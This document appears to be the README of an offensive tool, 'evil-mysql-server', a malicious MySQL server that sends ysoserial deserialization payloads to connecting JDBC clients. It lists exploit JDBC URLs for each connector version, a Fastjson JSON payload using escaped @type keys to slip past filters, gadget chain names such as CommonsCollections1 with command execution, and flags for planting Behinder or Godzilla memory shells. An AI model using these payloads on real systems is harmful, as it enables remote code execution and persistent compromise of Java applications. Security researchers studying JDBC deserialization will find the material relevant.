 # evil mysql server 

## 20250301

### 添加detectCustomCollations链

```bash
 - 5.1.19-5.1.28：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=ysu_CommonsCollections1_EX-Tomcatecho
 - 5.1.29-5.1.48：jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=ysu_CommonsCollections1_EX-Tomcatecho
 - 5.1.49：不可用
 - 6.0.2-6.0.6：jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=ysu_CommonsCollections1_EX-Tomcatecho
 - 8.x.x ：不可用
```

```json
{
  "3ny8v4":{{
      "\u0040\u0074\u0079\u0070\x65": "com.alibaba.fastjson.JSONObject",
      "98ko27":
      {
        "\u0040\u0074\u0079\u0070\x65":"java.lang.AutoCloseable",
        "\u0040\u0074\u0079\u0070\x65":"com.mysql.jdbc.JDBC4Connection",
        "hostToConnectTo":"127.0.0.1",
        "portToConnectTo":3306,
        "info":{
          "user":"ysu_Fastjson1_EX-TomcatEcho",
          "password":"123456",
          "useSSL":"false",
          "autoDeserialize":"true",
          "NUM_HOSTS":"1"
        },
        "databaseToConnectTo":"mysql",
        "url":""
      }
  }:{}}
}
```

## 适配多个 ysoserial 工具 - 20240407


 - https://github.com/frohoff/ysoserial
 - https://github.com/Y4er/ysoserial
 - https://github.com/qi4L/JYso
 - https://github.com/su18/ysoserial

### 前缀说明
```
ysoserial: yso
su18-ysoserial: ysu
JYso: jyso
Y4er-ysoserial: y4ys
```

### 使用示例

```
ysu_CommonsCollections1_EX-Tomcatecho
ysu_Fastjson1_EX-TomcatEcho
y4ys_Fastjson1_CLASS:TomcatCmdEcho

## 增加对su18-ysu的适配

```
Usage of ./evil-mysql:
  -addr string
        listen addr (default "0.0.0.0:3306")
  -hv string
        MemoryShell binding url pattern (default "https://www.google.com/")
  -java string
        java bin path (default "java")
  -pw string
        Behinder or Godzilla password (default "p@ssw0rd")
  -url string
        ysuserial bin path (default "/testbin")
  -yso string
        ysoserial bin path (default "ysoserial-0.0.6-SNAPSHOT-all.jar")
  -ysu string
        ysuserial bin path (default "ysuserial-1.5-su18-all.jar")
```

**5.1.11-5.x** ysu

```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=ysu_CommonsCollections1_EX-xxxx
```


## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 ysoserial 。

使用方式

[ysoserial](https://github.com/frohoff/ysoserial)

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 calc.exe
```

[ysuserial](https://github.com/su18/ysoserial) 这是一个基于原始ysoserial的增强项目。

```shell
./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-0.9-su18-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p calc.exe
```

## JDBC url 示例

> 使用 ysuserial 时请修改username的前三个字符为 **ysu** 

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)


